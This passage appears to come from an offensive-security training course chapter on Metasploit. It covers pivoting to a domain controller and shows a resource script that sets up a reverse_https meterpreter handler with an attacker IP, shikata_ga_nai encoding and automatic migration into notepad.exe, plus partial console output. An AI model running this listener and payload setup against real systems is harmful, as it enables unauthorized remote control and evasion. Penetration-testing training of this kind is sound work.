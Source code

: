 
 Using this technique, we are able to gain a remote desktop session on a host we are otherwise notable to reach from our Kali system. 
 
 Likewise, if the domain controller was connected to an additional network, we could create a chain of pivots to reach any host.
22.5.4.1 Exercise

1. Use post-exploitation modules and extensions along with pivoting techniques to enumerateand compromise the domain controller from a meterpreter shell obtained from yourWindows 10 client.
22.6 Metasploit Automation


 While the Metasploit Framework automates quite a bit for us, we can further automate repetitive commands inside the framework itself.

 When we use a payload to create a standalone executable or a client-side attack vector like an HTML application, we select options like payload type, local host, and local port. 
 
 The same options must then be set in the multi/handler module.
 
 To streamline this, we can take advantage of Metasploit resource scripts.
 
 We can use any number of Metasploit commands in a resource script.

 For example, using a standard editor, we will create a script in our home directory named setup.rc.
 
 In this script, we will set the payload to windows/meterpreter/reverse_https and configure the relevant LHOST and LPORT parameters. 
 
 We also enable stage encoding using thex86/shikata_ga_nai encoder and configure the post/windows/manage/migrate module to be executed automatically using the AutoRunScript option.
 
 This will cause the spawned meterpreter to automatically launch a background notepad.exe process and migrate to it. 
 
 Finally, the ExitOnSession parameter is set to “false” to ensure that the listener keeps accepting new connections and the module is executed with the -j and -z flags to stop us from automatically interacting with the session. 
 
 The commands for this are as follows:

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z



 After saving the script, we can execute it by passing the -r flag to msfconsole as shown in Listing.
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/28.jpg)

kali@kali:~$ sudo msfconsole -r setup.rc
...
[*] Processing setup.rc for ERB directives.
resource (setup.rc)> use exploit/multi/handler

